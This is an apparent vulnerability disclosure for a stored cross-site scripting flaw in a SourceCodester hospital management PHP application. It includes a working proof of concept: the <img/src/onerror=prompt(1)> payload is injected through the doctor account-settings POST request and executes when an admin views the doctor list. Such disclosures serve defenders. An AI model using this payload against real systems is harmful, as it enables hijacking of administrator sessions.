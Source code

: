 Exploit Title: Hospital Management System - Stored XSS

Application: Hospital Management System

Date: 11.11.2024

Bugs: XSS

Exploit Author: Salah Tayeh

Vendor Homepage: https://www.sourcecodester.com/

Software Link: https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html

Version: 1.0

# Description
Stored Cross Site Scripting (XSS) in the "Vaidya Mitra" healthcare application, specifically in the doctor's account settings functionality. The issue arises due to inadequate input validation in the doctor's name parameter, allowing an attacker to inject malicious scripts into the system, leading to a Cross-Site Scripting (XSS) vulnerability.

# Proof of Concept (PoC)


**1. Exploiting Doctor's Account Settings:**

The attacker, using the Burp Suite Proxy tool, intercepts and modifies a POST request sent by the doctor to update their account settings.
The payload <img/src/onerror=prompt(1)> is injected into the name parameter.
The manipulated request looks like the following:

POST /vm/doctor/edit-doc.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 203
...

id00=4&oldemail=salahtayeh13%40yahoo.com&email=salahtayeh13%40yahoo.com&name=Dr.+Salah+Tayeh+%3Cimg%2Fsrc%2Fonerror%3Dprompt%281%29%3E&nic=12345678&Tele=7070707070&spec=1&password=doctor&cpassword=doctor

Upon submission, the payload gets stored in the doctor's name field.

**2. Triggering XSS in Admin's View:**

An admin viewing doctors' information at http://localhost/vm/admin/doctors.php inadvertently triggers the XSS vulnerability.
The admin sends a GET request to view a doctor's details:

GET /vm/admin/doctors.php?action=view&id=4 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
...

The server returns the doctor's information, and the XSS payload in the name field is executed in the admin's browser, leading to the alert being triggered.
